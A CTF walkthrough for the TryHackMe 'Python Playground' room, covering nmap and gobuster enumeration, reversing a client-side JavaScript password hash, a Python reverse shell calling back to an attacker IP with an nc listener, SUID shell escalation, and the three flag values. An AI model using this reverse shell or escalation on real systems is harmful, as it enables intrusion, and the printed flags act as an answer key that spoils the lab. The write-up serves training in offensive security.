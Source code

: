
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration (Nmap)
- ✅ Web Enumeration (Gobuster)
- ✅ JavaScript Login Bypass Logic 
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries

---

## 🗂️ Appendix Archive

> **Password:** `1 kn0w 1 5h0uldn'7!`

---

## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**
```
┌──(zenrage-a1105㉿ZenRage-A1105)-[~/thm]
└─$ gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.182
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.html           (Status: 200) [Size: 3134]
/index.html           (Status: 200) [Size: 941]
/index.html           (Status: 200) [Size: 941]
/login.html           (Status: 200) [Size: 549]
/signup.html          (Status: 200) [Size: 549]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
 ```

🔗 [http://10.10.192.182/admin.html](http://10.10.192.182/admin.html)  
🔗 [View Source](view-source:http://10.10.192.182/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    return [str(ord(c)-97) for c in string]

def unicode_to_text(string):
    out = ''
    for i in range(0, len(string), 2):
        out += chr(int(string[i])*26 + int(string[i+1]))
    return out

hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.106.222",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{be3adc69c25ad14eb79da4eb57925ad1}`

</details>

## 🧠 Tips

- Use `<details>` and `<summary>` in `.md` to make content collapsible  
- Render this using **Markdown Preview Enhanced**, **Obsidian**, or static site generators for best effects  
- For interactivity, embed `copy.js`, `highlight.js`, or use GitHub Pages with custom JS
